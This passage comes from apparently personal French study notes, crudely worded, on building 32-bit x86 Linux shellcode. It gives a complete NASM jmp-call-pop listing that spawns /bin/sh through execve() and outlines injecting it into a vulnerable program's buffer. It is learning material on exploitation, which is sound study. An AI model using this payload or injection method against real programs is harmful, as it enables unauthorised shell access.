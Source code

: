 	- À la place des AAAA, on va mettre l'adresse de début de /bin/sh car execve() l'exige (le gros enculé). C'est 4 A car on est dans l'exemple sur une architecture 32 bits donc étant données que A = 8bits et une adresse = 32bits... 
	- À la place de KKKK, on va foutre des octet null car on s'en bat les couilles de ce paramètre. On fait ça pour éviter de mettre des octets null dans le shellcode. Tu vas comprendre en fait on charge eax qui est égale à 0.
	- Grâce à ça, on va pouvoir charger ce qui sera sur les placeholder vers les registres ebx (pour le 2ème argument, l'adresse de /bin/sh), ecx (pour le 3ème argument, la commande /bin/sh en elle-même), edx (pour le 4ème argument, les NULL bytes) et on pourra mettre le numéro de syscall pour la fonction execve() dans [[Opcode-Register#^bd4e75|eax]] (on le mettra dans al pour éviter les NULL bytes). Enfin, on appellera le syscall (int 0x80 car architecture 32bits).
```
Section			.text

	global _start

_start:

	jmp short	GotoCall

shellcode:

	pop		esi
	xor		eax, eax
	mov byte	[esi + 7], al
	lea		ebx, [esi]
	mov long	[esi + 8], ebx
	mov long	[esi + 12], eax
	mov byte	al, 0x0b
	mov		ebx, esi
	lea		ecx, [esi + 8]
	lea		edx, [esi + 12]
	int		0x80

GotoCall:

	Call		shellcode
	db		‘/bin/shJAAAAKKKK’
```
- 
	- Enfin, on va [[Création de Shellcode#^19a022|extraire nos opcodes et construire notre shellcode]].
	- Tu pourras donc utiliser ou créer des programmes qui injectes des shellcode dans des buffer avec des padding et tout le tralala et qui vont le mettre dans une variable d'environnement par exemple et te lançeront un shell à l'intérieur du programme pour pouvoir avoir un environnement et donc lancer le programme cible avec en paramètre la variable d'environnement. Enfin tu te demerde comme tu peux quoi.





##### Copie d'un processus existant et exécution dans ce nouvel environnement


###### Utilisation de [[Global/Programming/C C++/Librairie#^2b973f|fork()]] et [[Global/Programming/C C++/Librairie#^d84b9a|execve()]] 
